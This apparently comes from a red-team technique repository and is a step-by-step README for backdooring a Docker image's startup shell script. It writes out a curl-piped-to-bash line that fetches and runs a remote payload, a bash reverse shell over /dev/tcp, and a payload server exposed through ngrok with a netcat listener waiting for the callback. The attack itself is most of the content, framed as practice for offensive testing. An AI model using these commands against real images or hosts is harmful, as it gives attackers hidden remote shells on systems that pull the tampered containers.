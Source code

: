 # Backdoored shell script in container image

**Description:** This entry describes how to setup a shell script to backdoor container images

**Requirements:** docker, curl, python, ngrok

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```
curl -s http://<ip_address>:8000/payload.txt | bash
```

For added security use public key pinning (See the section [Using ngrok for your payload server address](https://github.com/sneakerhax/TTPs/tree/main/5.Command_and_Control/Docker/backdoored_image_sh#using-ngrok-for-your-payload-server-address)):

```
curl -Iksv --pinnedpubkey sha256//0 https://<your_site>.com
```

Use the value from output called public key hash (This is the format curl will expect in the next command)

```
curl -sk --pinnedpubkey <format>//<key_hash> https://<your_site>.com
```

This will curl the website with the public key pinned (-k is used if you have a self signed certificate)

### Build the image

* Update line 4 with the ip address of your payload server

```
docker build -t backdoor .
```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```
touch payload.txt
```


### Add your payload (in this example the reverse shell)

```
nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1
```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```
python3 -m http.server
```

### Using ngrok for your payload server address

```
ngrok http 8000 -bind-tls=true
```

Starts an ngrok listener and gives you a public address (You will need to follow the [Building the image](https://github.com/sneakerhax/TTPs/tree/main/5.Command_and_Control/Docker/backdoored_image_sh#building-the-image) section to grab the certificate)

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```
netcat -lkvp 8080
```

## Start your container

This step emulates what will occur when the backdoored image is deployed and the container starts. The script in the case will only execute once when the container is started

### Start the Docker container (execute the payload)

```
docker run -it backdoor
```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)

## References
* none
